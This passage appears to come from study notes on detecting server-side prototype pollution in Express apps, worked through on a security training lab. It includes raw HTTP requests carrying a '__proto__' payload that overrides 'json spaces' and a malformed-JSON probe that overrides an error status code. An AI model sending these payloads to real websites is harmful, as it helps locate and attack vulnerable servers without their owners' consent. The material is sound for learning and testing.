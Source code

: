 3.  Trigger the error response again and check whether you've successfully overridden the status code.
```http
POST /my-account/change-address HTTP/2
Host: 0add002304f59bdf80157130002a0053.web-security-academy.net

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg",}

---

HTTP/2 500 Internal Server Error
X-Powered-By: Express

{"error":{"expose":true,"statusCode":433,"status":433,"body":"{\"address_line_1\":\"Wiener HQ\",\"address_line_2\":\"One Wiener Way\",\"city\":\"Wienerville\",\"postcode\":\"BU1 1RP\",\"country\":\"UK\",\"sessionId\":\"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg\",}","type":"entity.parse.failed"}}
```

## Detecting server-side prototype pollution via JSON spaces override

The Express framework provides a `json spaces` option, which enables you to configure the number of spaces used to indent any JSON data in the response.
If you've got access to any kind of JSON response, you can try polluting the prototype with your own `json spaces` property, then reissue the relevant request to see if the indentation in the JSON increases accordingly.

Although the prototype pollution has been fixed in Express 4.17.4, websites that haven't upgraded may still be vulnerable.

Original response:
```json
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```

Response after the object was polluted:
```http
POST /my-account/change-address HTTP/2
Host: 0add002304f59bdf80157130002a0053.web-security-academy.net

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg","__proto__":{"json spaces":10}}

---

HTTP/2 200 OK
{
          "username": "wiener",
          "firstname": "Peter",
          "lastname": "Wiener",
          "address_line_1": "Wiener HQ",
          "address_line_2": "One Wiener Way",
          "city": "Wienerville",
          "postcode": "BU1 1RP",
          "country": "UK",
          "isAdmin": false
}
```
